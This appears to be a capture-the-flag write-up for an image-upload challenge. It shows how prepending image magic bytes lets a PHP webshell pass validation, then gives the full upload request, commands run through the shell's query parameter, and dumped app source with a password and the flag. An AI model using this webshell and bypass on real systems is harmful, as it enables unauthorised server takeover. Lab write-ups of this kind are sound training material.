






# Information gathering

Entering the page the user is presented with a choice "Upload your artwork" or Browse the gallery.  



Entering the gallery the user is presented with multiple images with random names.  



Uploading an image the apps adds random string of characters in front of the original name of the file when uploading.

Using the upload form to upload a image gives the redirects the user to the gallery page.  


Image is needed here, because the markdown breaks when uploading to Github. But further request and responses the magic bytes are replaced with ```[magic bytes here]``` 


So to find the upload images the user need to browse the gallery or enter the ```/uploads``` endpoint to find the last uploaded image.  



From here it's possible to access a image directly.  


Trying to upload a new image with the same name but containing a simple webshell written in PHP an error is returned.  
```http
HTTP/1.1 200 OK
[...]
        <section class="main-content">
            <h2>Contribute to the Royal Archive</h2>
            
            
                
                    <div class="messages">
                        
                            <div class="message">File does not appear to be a valid image</div>
                        
                    </div>
[...]
```


But using a file signature or "magic bytes" it's possible to bypass this validation on the backend.  
https://en.wikipedia.org/wiki/List_of_file_signatures  
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJfHPOnzvhptO9nuH
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJfHPOnzvhptO9nuH
Content-Disposition: form-data; name="image"; filename="test_shell_data.php.jpg"
Content-Type: image/jpeg

[magic bytes here]

<?php echo system($_GET['command']); ?>
------WebKitFormBoundaryJfHPOnzvhptO9nuH--
```

Accessing the newly uploaded "image" an error message occurs that tells the attacker that the script is executed.  



# Attack
Adding the query string to the script endpoint (```command```) it's possible to execute commands on the server.  
Requesting ```ls ..``` to list content from the parent folder.  
```http
GET /uploads/c074188ba97ebf54_test_shell_data.php.jpg/?command=ls%20.. HTTP/1.1
Host: 134.122.88.8:5005
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkltYWdlIHVwbG9hZGVkIHN1Y2Nlc3NmdWxseSEgVmlldyBpdCBpbiB0aGUgZ2FsbGVyeS4iXX1dfQ.aBeWfg.d22GsPv3qqc09pG-FnFEJBeeQiE
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:35:53 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 122

[magic bytes here]

Dockerfile
app.py
backup.bak
docker-compose.yml
requirements.txt
start.sh
static
templates
uploads
uploads
```

Adding ```cat app.py``` to the query.
```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:41:37 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 4245

[magic bytes here]

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory, session
import os
import imghdr
import secrets
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.config['SECRET_KEY'] = secrets.token_hex(16)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB max size
app.config['ADMIN_PASSWORD'] = 'Anubis_Guardian_1337'  # For admin section
app.config['FLAG'] = 'O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}'
```

```Flag: O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}```